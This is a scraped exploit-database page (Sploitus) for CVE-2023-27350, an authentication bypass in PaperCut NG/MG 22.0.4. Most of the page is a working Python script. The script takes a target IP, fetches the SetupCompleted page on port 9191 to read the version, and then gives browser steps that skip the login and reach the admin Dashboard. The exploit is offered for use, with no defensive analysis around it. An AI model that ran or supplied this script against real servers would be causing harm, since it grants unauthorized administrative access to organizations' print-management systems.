 ```yaml
---
title: PaperCut NG/MG 22.0.4 - Authentication Bypass Exploit exploit
url: https://sploitus.com/exploit?id=1337DAY-ID-38623&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2023-04-26
fetch_date: 2025-10-04T11:32:46.056170
---
```


# PaperCut NG/MG 22.0.4 - Authentication Bypass Exploit exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# PaperCut NG/MG 22.0.4 - Authentication Bypass Exploit CVE-2023-27350

2023-04-25 | CVSS 9.8

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=1337DAY-ID-38623
# Exploit Title: PaperCut NG/MG 22.0.4 - Authentication Bypass
# Exploit Author: MaanVader
# Vendor Homepage: https://www.papercut.com/
# Version: 8.0 or later
# Tested on: 22.0.4
# CVE: CVE-2023-27350

import requests
from bs4 import BeautifulSoup
import re

def vuln_version():
    ip = input("Enter the ip address: ")
    url = "http://"+ip+":9191"+"/app?service=page/SetupCompleted"
    response = requests.get(url)
    soup = BeautifulSoup(response.text, 'html.parser')
    text_div = soup.find('div', class_='text')
    product_span = text_div.find('span', class_='product')

    # Search for the first span element containing a version number
    version_span = None
    for span in text_div.find_all('span'):
        version_match = re.match(r'^\d+\.\d+\.\d+$', span.text.strip())
        if version_match:
            version_span = span
            break

    if version_span is None:
        print('Not Vulnerable')
    else:
        version_str = version_span.text.strip()
        print('Version:', version_str)
        print("Vulnerable version")
        print(f"Step 1 visit this url first in your browser: {url}")
        print(f"Step 2 visit this url in your browser to bypass the login page : http://{ip}:9191/app?service=page/Dashboard")

if __name__ =="__main__":
    vuln_version()
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)